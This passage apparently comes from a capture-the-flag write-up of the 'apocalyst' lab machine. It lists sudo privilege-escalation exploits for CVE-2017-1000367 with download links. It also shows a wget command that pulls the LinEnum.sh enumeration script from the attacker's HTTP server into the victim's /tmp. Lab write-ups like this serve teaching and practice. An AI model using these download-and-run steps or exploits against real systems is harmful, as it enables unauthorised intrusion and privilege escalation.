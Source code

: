 ```

[+] [CVE-2017–1000367] Sudoer-to-root
Details: [https://www.sudo.ws/alerts/linux_tty.html](https://www.sudo.ws/alerts/linux_tty.html)
Tags: RHEL=7(sudo:1.8.6p7)
Download URL: [https://www.qualys.com/2017/05/30/cve-2017-1000367/linux_sudo_cve-2017-1000367.c](https://www.qualys.com/2017/05/30/cve-2017-1000367/linux_sudo_cve-2017-1000367.c)
Comments: Needs to be sudoer. Works only on SELinux enabled systems

[+] [CVE-2017–1000367] sudopwn
Details: [https://www.sudo.ws/alerts/linux_tty.html](https://www.sudo.ws/alerts/linux_tty.html)
Download URL: [https://raw.githubusercontent.com/c0d3z3r0/sudo-CVE-2017-1000367/master/sudopwn.c](https://raw.githubusercontent.com/c0d3z3r0/sudo-CVE-2017-1000367/master/sudopwn.c)
Comments: Needs to be sudoer. Works only on SELinux enabled systems
```

Again we have a bunch of possible exploits but I’m not done enumerating, I’m going to upload LinEnum.sh to enumerate the entire system. I started a python HTTP server listening on port 8080 on my local machine

```
root@kali:~/Downloads/LinEnum# ls
CHANGELOG.md CONTRIBUTORS.md LinEnum.sh README.md
root@kali:~/Downloads/LinEnum# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 …
```

and downloaded the LinEnum.sh file into the temp folder of the victim.

```
www-data@apocalyst:/tmp$ wget [http://10.10.14.122:8080/LinEnum.sh](http://10.10.14.122:8080/LinEnum.sh)
wget [http://10.10.14.122:8080/LinEnum.sh](http://10.10.14.122:8080/LinEnum.sh)
 — 2017–11–23 23:53:22 —  [http://10.10.14.122:8080/LinEnum.sh](http://10.10.14.122:8080/LinEnum.sh)
Connecting to 10.10.14.122:8080… connected.
HTTP request sent, awaiting response… 200 OK
Length: 43283 (42K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh 100%[===================>] 42.27K 169KB/s in 0.2s

2017–11–23 23:53:23 (169 KB/s) — ‘LinEnum.sh’ saved [43283/43283]

www-data@apocalyst:/tmp$ ls -la
ls -la
total 152
drwxrwxrwt 10 root root 4096 Nov 23 23:53 .
drwxr-xr-x 23 root root 4096 Jul 26 12:37 ..
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .ICE-unix
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .Test-unix
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .X11-unix
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .XIM-unix
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .font-unix
-rwxr-xr-x 1 www-data www-data 1879 Nov 23 19:49 ItyhsHrJBV
-rw-rw-rw- 1 www-data www-data 43283 Nov 23 23:52 LinEnum.sh
-rwxr-xr-x 1 www-data www-data 1879 Nov 23 19:48 TxFbxalONx
-rwxr-xr-x 1 www-data www-data 207 Nov 23 19:49 czDNtfLuLg
-rwxr-xr-x 1 www-data www-data 1879 Nov 23 19:48 gAaiSQXKTW
-rwxr-xr-x 1 www-data www-data 43052 Nov 23 19:08 linux-exploit-suggester.sh
-rwxr-xr-x 1 www-data www-data 207 Nov 23 19:48 ljSBJYhPoF
drwx — — — 3 root root 4096 Nov 23 16:26 systemd-private-545318da7c6e44889bdb503e2414bea4-systemd-timesyncd.service-846O18
drwxrwxr-x 2 falaraki falaraki 4096 Nov 23 23:52 tmp
drwx — — — 2 root root 4096 Nov 23 16:26 vmware-root
-rwxr-xr-x 1 www-data www-data 207 Nov 23 19:48 wsbBhpkLkI
```